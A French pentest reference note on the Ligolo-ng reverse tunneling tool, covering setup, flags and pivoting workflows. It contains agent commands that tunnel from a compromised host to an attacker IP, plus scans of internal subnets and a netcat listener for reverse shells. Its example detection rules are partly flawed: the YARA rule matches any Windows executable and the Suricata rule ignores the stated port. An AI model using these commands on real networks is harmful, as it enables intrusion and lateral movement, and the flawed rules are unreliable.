


# Ligolo-ng — C2 & Post-Exploitation

> [!info] **En 1 phrase**
> Ligolo-ng est un outil de tunneling et de pivoting « reverse » : un agent tourne sur la machine compromise, un proxy sur l'attaquant, et une interface TUN crée un accès réseau transparent au réseau interne.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | Ligolo-ng |
| Description | Tunneling/pivoting par interface TUN avec connexion reverse : accès réseau transparent au réseau interne |
| Catégorie | C2 & Post-Exploitation |
| Sous-catégorie | Pivoting, tunneling, redirection de ports |
| Fonction principale | Créer une interface TUN côté attaquant pour router vers le réseau interne |
| Type d'outil | CLI (agent + proxy) |
| Licence | GPL-3.0 |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Go (99 %), Makefile |
| Développeur / organisation | nicocha30 + ~20 contributeurs |
| Projet officiel | Ligolo-ng |
| Dépôt officiel | https://github.com/nicocha30/ligolo-ng |
| Documentation officielle | https://docs.ligolo.ng |
| Date de création | 28 juillet 2021 |
| État du projet | actif (dernière release 2026-02-15) |
| Dernière version connue | v0.8.3 |
| Systèmes compatibles | Agent : Windows, Linux, macOS, BSD ; Proxy : Linux, Windows, macOS |

> [!note] Pour vérifier / compléter
> Depuis la v0.8 : API REST, Web UI multijoueur, mode daemon, auto-bind, autoroute automatique des routes (Windows, Linux, macOS, BSD) et kill d'agent.

---

## Concept

Ligolo-ng repose sur une architecture **reverse** : contrairement aux tunnels « forward » (chisel, `ssh -R`), c'est la **victime qui initie la connexion sortante** vers le proxy de l'attaquant — ce qui franchit les firewalls qui bloquent les entrées. Le proxy (côté attaquant) crée ensuite une interface **TUN** : les paquets destinés au réseau interne y sont routés, comme si l'attaquant était connecté physiquement au réseau. Aucun socat ni proxy supplémentaire n'est requis sur la cible, et l'agent n'exige pas de droits administrateur.

L'agent existe pour **Windows, Linux, macOS et BSD** ; le proxy pour Linux/Windows/macOS. En pentest, il s'utilise en **post-exploitation** : après un premier pied sur une machine, il ouvre un accès transparent au sous-réseau interne pour scanner, exploiter des services, pivoter en cascade et faire transiter des sessions C2. Contrairement aux forwarders classiques, le tunnel TUN est **couche 3** : TCP, UDP et ICMP transitent sans configuration par service — `nmap`, `curl`, RDP, SMB fonctionnent directement sur les IP internes.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Tunnel reverse | C'est la cible qui se connecte vers l'attaquant : passe les firewalls d'entrée, une sortie TCP suffit. |
| Agent | Binaire Go exécuté sur la machine compromise ; initie la connexion TLS vers le proxy et accepte d'être contrôlé. |
| Proxy | Binaire côté attaquant ; reçoit les agents, crée l'interface TUN, fournit un menu interactif de sessions. |
| Interface TUN | Interface virtuelle de niveau 3 (IP) ; les paquets y entrant sont injectés dans le réseau de la cible. |
| Route | Côté attaquant, `ip route add` dirige le trafic vers le sous-réseau interne via l'interface TUN. |
| Certificats | Canal TLS ; `-selfcert` génère un certificat auto-signé, `-ignore-cert` côté agent l'accepte. |
| Session / start / stop | Menu proxy : sélection d'un agent, activation/arrêt du tunnel TUN. |
| Auto-bind / autoroute | (v0.8+) Tunnel configuré automatiquement à la connexion d'un agent ; routes gérées automatiquement. |
| API + Web UI | (v0.8+) API REST et interface web multijoueur pour administrer les tunnels à plusieurs opérateurs. |

---

## Installation

### Binaires précompilés (toutes plateformes)

```bash
# Depuis les releases GitHub : ligolo-ng_agent_0.8.3_*.tar.gz et ligolo-ng_proxy_0.8.3_*.tar.gz
# https://github.com/nicocha30/ligolo-ng/releases
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.3/ligolo-ng_agent_0.8.3_linux_amd64.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.3/ligolo-ng_proxy_0.8.3_linux_amd64.tar.gz
tar xzf ligolo-ng_agent_0.8.3_linux_amd64.tar.gz
tar xzf ligolo-ng_proxy_0.8.3_linux_amd64.tar.gz
```

### Compilation depuis les sources

```bash
git clone https://github.com/nicocha30/ligolo-ng.git && cd ligolo-ng
go build -o dist/agent ./cmd/agent
go build -o dist/proxy ./cmd/proxy
# Cross-compilation Windows
GOOS=windows GOARCH=amd64 go build -o dist/agent.exe ./cmd/agent
```

### Préparation du proxy (Linux)

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

> [!warning] Prérequis & problèmes potentiels
> - L'interface TUN doit exister **avant** le lancement du proxy, avec l'utilisateur autorisé (`user $(whoami)`).
> - Côté cible, aucun privilège admin n'est nécessaire pour l'agent (connexion sortante).
> - Windows : driver TUN (wintun) embarqué dans le binaire agent — aucune installation.

---

## Configuration

La configuration se fait principalement par **flags de ligne de commande** ; la v0.8+ accepte un **fichier de configuration** pour le proxy.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `-selfcert` | Certificat auto-signé | booléen | Chiffre le TLS ; agent doit utiliser `-ignore-cert` | `./proxy -selfcert` |
| `-laddr` | Adresse d'écoute du proxy | `ip:port` | Point de connexion des agents (défaut `0.0.0.0:11601`) | `-laddr 0.0.0.0:11601` |
| `-http-connect-proxy` | Sortie via un proxy HTTP CONNECT | URL | Franchit un proxy d'entreprise | `-http-connect-proxy http://10.10.14.1:3128` |
| `-connect` | Adresse du proxy (agent) | `ip:port` | Cible de la connexion reverse | `./agent -connect 10.10.14.5:11601` |
| `-ignore-cert` | Ne pas valider le certificat (agent) | booléen | Accepte un certificat auto-signé | `-ignore-cert` |
| `-autoreconnect` | Reconnexion automatique (agent) | booléen | Résiste aux coupures | `-autoreconnect` |
| `-name` | Nom de l'agent | chaîne | Identifie l'agent dans le proxy | `-name web2` |
| `-config` | Fichier de config du proxy (v0.8+) | chemin | Centralise listen/agents/options | `-config ligolo.yaml` |

---

## Architecture interne

Ligolo-ng = deux binaires Go : l'**agent** (cible) et le **proxy** (attaquant). L'agent ouvre une connexion **TLS sortante** vers le proxy ; le proxy maintient une session par agent et expose un menu interactif (`session`, `ifconfig`, `start`, `stop`, `listener_add`, `listener_list`).

Le cœur est l'interface **TUN** du proxy : quand l'attaquant envoie un paquet vers une IP interne (routée `dev ligolo`), le proxy lit le paquet du TUN, l'encapsule dans le canal TLS de l'agent, qui le réinjecte dans le réseau de la cible ; le retour suit le chemin inverse. C'est un fonctionnement **transparent de niveau 3** : TCP, UDP, ICMP supportés sans configuration.

Les listeners (`listener_add`) font l'inverse : l'agent écoute un port dans le réseau interne et redirige les connexions vers un listener local de l'attaquant (utile pour recevoir des reverse shells).



---

## Commandes

### Commandes principales

```bash
# Proxy (attaquant)
sudo ./proxy -selfcert -laddr 0.0.0.0:11601
# Agent (cible) — Linux / Windows
./agent -connect 10.10.14.5:11601 -ignore-cert
.\agent.exe -connect 10.10.14.5:11601 -ignore-cert
```

### Menu interactif du proxy

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `session` | Lister et sélectionner les agents connectés | Changement de session active |
| `start` / `stop` | Activer / arrêter le tunnel TUN de la session | Routes `dev ligolo` actives / coupées |
| `ifconfig` | Interfaces et routes du réseau interne | Liste des réseaux de la cible |
| `listener_add --addr <ip:port> --to <ip:port>` | Listener sur l'agent, redirigé vers l'attaquant | Le port interne mène vers le listener local |
| `listener_list` / `listener_stop --name <nom>` | Lister / arrêter les listeners | Redirections sous contrôle |
| `kill` | Terminer un agent (v0.8+) | L'agent distant est tué |
| `help` | Aide du menu | Liste des commandes |

### Commandes avancées

```bash
# Franchir un proxy HTTP CONNECT
sudo ./proxy -selfcert -http-connect-proxy http://10.10.14.1:3128
# Agent nommé avec reconnexion automatique
./agent -connect 10.10.14.5:11601 -ignore-cert -autoreconnect -name web2
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-laddr <ip:port>` | Adresse d'écoute du proxy | `-laddr 0.0.0.0:11601` | Basic |
| `-selfcert` | Certificat auto-signé | `./proxy -selfcert` | Basic |
| `-connect <ip:port>` | Adresse du proxy (agent) | `-connect 10.10.14.5:11601` | Basic |
| `-ignore-cert` | Ignore la validation du certificat | `./agent -ignore-cert` | Basic |
| `-autoreconnect` | Reconnexion automatique de l'agent | `./agent -autoreconnect` | Intermediate |
| `-name <nom>` | Nomme l'agent | `-name web2` | Intermediate |
| `-http-connect-proxy <url>` | Sortie via un HTTP CONNECT | `-http-connect-proxy http://10.10.14.1:3128` | Advanced |
| `-config <fichier>` | Fichier de config du proxy (v0.8+) | `-config ligolo.yaml` | Advanced |
| Mode daemon + API/Web UI | Proxy en service, administration multijoueur | v0.8+ | Expert |

> [!tip] Options les plus utiles au quotidien
> `-selfcert` + `-ignore-cert` (canal chiffré rapide), `-connect` (agent), `-name` (clarté multi-sessions), `-autoreconnect` (résilience).

---

## Exemples pratiques

### Beginner

```bash
# Tunnel simple vers un sous-réseau interne
# 1. Attaquant : TUN + proxy ; 2. Cible : agent ; 3. start + route ; 4. test
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
sudo ./proxy -selfcert -laddr 0.0.0.0:11601
./agent -connect 10.10.14.5:11601 -ignore-cert
sudo ip route add 172.16.5.0/24 dev ligolo
ping -c 1 172.16.5.10
```

Résultat attendu : l'attaquant ping une machine interne via le TUN.

### Intermediate

```bash
# Scanner le réseau interne à travers le tunnel
sudo ip route add 172.16.5.0/24 dev ligolo
nmap -sT -Pn -p 445,3389,5985 172.16.5.0/24
curl -s http://172.16.5.10/admin
```

### Advanced

```bash
# Pivoting en cascade
./agent -connect 10.10.14.5:11601 -ignore-cert -name web2
sudo ip route add 10.10.10.0/24 dev ligolo
nmap -sT -Pn 10.10.10.0/24
```

### Expert

```bash
# Recevoir un reverse shell via un listener interne
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
nc -lvnp 4444
# La victime interne se connecte au port 1234 (écouté par l'agent)
```

---

## Workflow complet (scénario pas à pas)

1. **Étape 1 — Démarrer le proxy** et créer l'interface TUN côté attaquant.
   ```bash
   sudo ip tuntap add user $(whoami) mode tun ligolo
   sudo ip link set ligolo up
   sudo ./proxy -selfcert -laddr 0.0.0.0:11601
   ```
2. **Étape 2 — Transférer l'agent** sur la machine compromise (wget, session C2, partage SMB…).
3. **Étape 3 — Lancer l'agent** côté cible.
   ```bash
   ./agent -connect 10.10.14.5:11601 -ignore-cert
   ```
4. **Étape 4 — Activer le tunnel** dans le proxy : `session` → sélectionner l'agent → `start`.
5. **Étape 5 — Ajouter la route** vers le réseau interne côté attaquant.
   ```bash
   sudo ip route add 172.16.5.0/24 dev ligolo
   ```
6. **Étape 6 — Exploiter** le réseau interne : `nmap`, `curl`, RDP/SSH direct vers `172.16.5.x`, et déposer un second agent pour pivoter en cascade.

---

## Scénarios avancés

### Scénario 1 : Pivoting en cascade vers un sous-réseau plus profond

```bash
# Seconde cible : rejoindre 10.10.10.0/24
./agent -connect 10.10.14.5:11601 -ignore-cert -name web2
sudo ip route add 10.10.10.0/24 dev ligolo
```

Chaque agent ajouté étend le tunnel : on empile les routes `dev ligolo` sans configuration réseau côté cible.

### Scénario 2 : Franchir un proxy HTTP CONNECT de l'entreprise

```bash
sudo ./proxy -selfcert -http-connect-proxy http://10.10.14.1:3128
./agent -connect 10.10.14.5:11601 -ignore-cert
```

Le proxy de l'attaquant sort via le proxy HTTP CONNECT d'entreprise : utile quand l'infrastructure red team est elle-même filtrée.

### Scénario 3 : Recevoir un reverse shell à travers le tunnel

```bash
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
nc -lvnp 4444
# La victime interne se connecte au port 1234 (écouté par l'agent)
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Enuméération | Scan du réseau interne via le TUN (`nmap`, `curl`) |
| Exploitation | Accès aux services internes non routables |
| Post-exploitation | Pivoting, exfiltration, transport des sessions C2 |
| Exfiltration | Le tunnel véhicule les transferts de fichiers |
| Pivoting | Cœur du rôle : TUN, listeners, pivoting en cascade |
| Red team / lab | Multiplayers via Web UI (v0.8+) |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Command and Control | Protocol Tunneling | T1572 | Tunnel TLS reverse encapsulant le trafic interne | Analyse du flux TLS, volume | Filtrage egress, inspection TLS |
| Command and Control | Non-Standard Port | T1571 | Port par défaut 11601 | Alertes sur ports non standard sortants | Application Control |
| Command and Control | Application Layer Protocol | T1071.001 | Canal de données TCP/TLS | Corrélation flux sortants | Egress filtering |
| Exfiltration | Exfiltration Over C2 Channel | T1041 | Transferts via le tunnel | Analyse de volume par flux | DLP, egress |
| Lateral Movement | Exploitation of Remote Services | T1210 | Accès aux services internes révélés | Logs de connexions internes | Segmentation, MFA |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Ligolo-ng n'a pas d'identifiant logiciel (SID) dans ATT&CK ; il est associé aux techniques de tunneling/pivoting.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Socket TLS sortant vers une IP externe sur un port non standard (ex. 11601) | Monitoring des connexions sortantes, Egress filtering |
| Binaire Go statique non signé (Windows/Linux) | Contrôle Authenticode, signatures YARA Go, AppLocker/WDAC |
| Trafic réseau interne inhabituel entre zones | Segmentation réseau, authentification |
| Interface TUN côté attaquant / processus `proxy` | Détection d'outils de tunneling (EDR, YARA) |
| Processus nommés `agent` / `proxy` | Chasse aux outils de tunneling (signatures, hachages) |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma — connexion sortante vers un port de tunneling inhabituel (à adapter)
title: Potential Tunneling Tool Outbound Connection
status: experimental
description: Connexion sortante vers un port non standard type Ligolo-ng (11601)
logsource:
  category: network_connection
  product: windows
detection:
  selection:
    Initiated: 'true'
    RemotePort: 11601
  condition: selection
level: high
```

```bash
# Exemple Suricata — flux TLS vers IP externe sur port 11601 (à adapter)
alert tls $HOME_NET any -> $EXTERNAL_NET any (msg:"Potential Ligolo-ng tunneling"; sid:1000002; rev:1;)
```

```yaml
# Exemple YARA — binaire Go avec strings de Ligolo-ng (à adapter)
rule Ligolo_ng_example {
  meta:
    description = "Exemple d'empreinte YARA sur binaires Ligolo-ng"
  strings:
    $a = "ligolo" ascii
    $b = "11601" ascii
    $c = "github.com/nicocha30" ascii
  condition:
    uint16(0) == 0x5A4D or any of them
}
```

---

## Automatisation

La v0.8+ expose une **API REST** et une **Web UI** multijoueur pour administrer les tunnels à plusieurs opérateurs. En script, on pilote le proxy et les sessions.

```bash
# Lancer proxy + TUN puis vérifier les routes
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
sudo ./proxy -selfcert -quiet &
sleep 2
ip route show dev ligolo
```

```python
# Exemple conceptuel : pilotage via l'API REST (v0.8+)
import requests
# r = requests.get("http://127.0.0.1:11601/agents")
# agents = r.json()
```

> [!note] À vérifier
> Les endpoints exacts de l'API REST / Web UI dépendent de la v0.8+ : consulter docs.ligolo.ng pour la version installée.

---

## Output et parsing

Le proxy produit des logs sur stdout (mode verbeux pour déboguer les sessions) ; le menu interactif affiche agents, sessions, interfaces et listeners.

```bash
sudo ./proxy -selfcert 2>&1 | tee /var/log/ligolo-proxy.log
grep -ci "new agent" /var/log/ligolo-proxy.log
```

```python
# Exemple : extraire les noms d'agents d'un log (conceptuel)
# import re
# print(sorted(set(re.findall(r"agent (\w+)", open("/var/log/ligolo-proxy.log").read()))))
```

---

## Intégrations

```text
Compromission initiale → agent Ligolo-ng → TUN → nmap/curl/MSF/RDP → exploitation interne
```

- [[Tools| Outils]]
- [[Techniques/Pivoting et Tunneling| Pivoting et Tunneling]]
- [[Techniques/Reverse Shells| Reverse Shells]]
- [[Outil - Chisel| Chisel]]
- [[Outil - Nmap| Nmap]]
- [[Outil - Metasploit| Metasploit]]
- [[Outil - Covenant| Covenant]]
- [[Outil - socat| socat]]
- [[Outil - Netcat| Netcat]]

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| Chisel | SOCKS5/port forwarding, HTTP dans le tunnel, léger | Couche 4, pas de TUN transparent | Pivoting HTTP(S) |
| `ssh -R` / OpenSSH | Présent partout, simple | Un port par forward | Forward ponctuel |
| socat | Redirections locales puissantes | Pas de TUN, config manuelle | Forward de ports |
| Metasploit route | Intégré à MSF, simple | Limitée aux sessions MSF | Pivoting Metasploit |
| FRP / Zerotier | Orientés production | Détectables, nécessitent admin | Lab, infra |

> **Quand utiliser Ligolo-ng plutôt qu'un autre ?** Dès qu'on veut un accès réseau **transparent layer 3** (TCP + UDP + ICMP) sans config par service et sans privilèges admin sur la cible.

---

## Performance

- TUN couche 3 : chaque paquet est encapsulé dans le canal TLS ; débit = f(connexion de l'agent, CPU de l'attaquant).
- Binaires Go statiques légers (~5-15 Mo) ; un proxy gère plusieurs agents (Web UI multijoueur en v0.8+).
- Pour les scans intensifs, préférer `nmap -sT` (connect) à travers le TUN (fiabilité des SYN selon les plateformes).

---

## Troubleshooting

### Common problems

#### Problème : l'agent ne se connecte pas au proxy

- **Cause** : proxy pas lancé, mauvais port, ou sortie bloquée.
- **Solution** : vérifier `./proxy -selfcert` actif et `-connect` ; tester `nc -v <ip> <port>`.
- **Vérification** : l'agent apparaît dans `session`.

#### Problème : le tunnel ne route rien

- **Cause** : session pas démarrée (`start`) ou route absente.
- **Solution** : `session` → `start`, puis `sudo ip route add 172.16.5.0/24 dev ligolo`.
- **Vérification** : `ping -c 1 172.16.5.10` répond.

#### Problème : erreur TLS / certificat

- **Cause** : agent sans `-ignore-cert` face à un certificat auto-signé.
- **Solution** : ajouter `-ignore-cert` (ou distribuer un certificat signé).
- **Vérification** : connexion établie sans erreur.

---

## Sécurité de l'outil

- **Chiffrement** : canal TLS agent ↔ proxy ; `-selfcert` suffit en lab, en red team distribuer un certificat signé et retirer `-ignore-cert`.
- **Authentification** : pas d'authentification forte par défaut — toute personne joignant l'IP/port du proxy peut connecter un agent. Restreindre par firewall.
- **Confidentialité** : les données traversent le tunnel chiffrées ; éviter le plain-text pour des données sensibles.
- **Privilèges** : l'agent n'exige pas d'admin, mais le TUN côté attaquant nécessite `sudo`.
- **Usage légal** : uniquement dans le cadre d'engagements autorisés ; le tunneling sans autorisation est illégal.

---

## Limitations

- Chaque sous-réseau nécessite une route `ip route add dev ligolo`.
- Pas de compression/optimisation par défaut : un scan massif peut saturer le canal TLS.
- Vérifier les checksums des releases (pas de signature officielle).
- Fonctions v0.8+ (API, auto-bind, autoroute) jeunes et potentiellement buggées.
- Port par défaut connu (11601) : surveillé ; préférer un port autorisé (443, 53) selon le contexte.

---

## Cheatsheet

```bash
# Proxy + TUN (attaquant)
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
sudo ./proxy -selfcert -laddr 0.0.0.0:11601
# Agent (cible)
./agent -connect 10.10.14.5:11601 -ignore-cert -autoreconnect -name web2
# Route
sudo ip route add 172.16.5.0/24 dev ligolo
# Menu proxy : session / start / stop / ifconfig
# listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
# listener_list / listener_stop --name <nom> / kill
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Tunneling/pivoting par interface TUN avec connexion reverse (agent → proxy) |
| **Quand l'utiliser ?** | Post-compromission, pour accéder et exploiter un réseau interne |
| **Commande principale** | `sudo ./proxy -selfcert` puis `./agent -connect <ip>:11601 -ignore-cert` |
| **Alternative principale** | Chisel (SOCKS/port forwarding) |
| **Concepts importants** | TUN, reverse, agent/proxy, routes, TLS, listeners |
| **Liens associés** | [[Outil - Chisel\| Chisel]] · [[Techniques/Pivoting et Tunneling\| Pivoting]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Socket TLS sortant vers une IP externe sur un port non standard (11601) | Monitoring des connexions sortantes, Egress filtering |
| Binaire Go statique non signé (Windows) | Contrôle Authenticode, signatures YARA Go, AppLocker/WDAC |
| Interface TUN côté attaquant / processus proxy | Détection d'outils de tunneling (EDR, YARA) |
| Liste de processus avec binaire nommé `agent` / `proxy` | Chasse aux outils de tunneling (signatures, hachages) |

---

## Tips & Pièges

> [!tip] **Tips**
> - Pensez au **pivoting en cascade** : déposez un second agent sur une machine interne pour rejoindre un sous-réseau plus profond.
> - Combinez `-autoreconnect` pour résister aux interruptions réseau.
> - **Windows (agent)** : driver TUN fourni dans le binaire (wintun) — aucune installation.
> - Ajoutez les routes **après** `start`, sinon les paquets partent par l'interface par défaut.

> [!warning] **Pièges**
> - Sans `start`, le tunnel ne route rien — et n'oubliez pas `ip route add <réseau> dev ligolo`.
> - Vérifiez que la cible autorise la sortie vers `11601` ; sinon `-http-connect-proxy` ou un port autorisé (443) via un reverse de Chisel.
> - Ne lancez pas le proxy sans interface TUN : le `start` échouera.
> - `nmap -sS` peut donner de faux négatifs à travers le TUN : préférez `-sT`.

---

## References

### Official

- Documentation officielle : https://docs.ligolo.ng
- GitHub officiel : https://github.com/nicocha30/ligolo-ng
- Releases : https://github.com/nicocha30/ligolo-ng/releases

### Security references

- MITRE ATT&CK — Protocol Tunneling : https://attack.mitre.org/techniques/T1572/
- MITRE ATT&CK — Non-Standard Port : https://attack.mitre.org/techniques/T1571/

### Community

- HackTricks — Pivoting, Tunneling and Port Forwarding : https://book.hacktricks.xyz/network-services-pentesting/pivoting-tunneling-and-port-forwarding#ligolo-ng
- Write-ups « Ligolo-ng » (engagement, red team)

---

**Liens :** [[Tools| Outils]] · [[Techniques/Pivoting et Tunneling| Pivoting et Tunneling]] · [[Outil - Chisel| Chisel]] · [[Techniques/Reverse Shells| Reverse Shells]]
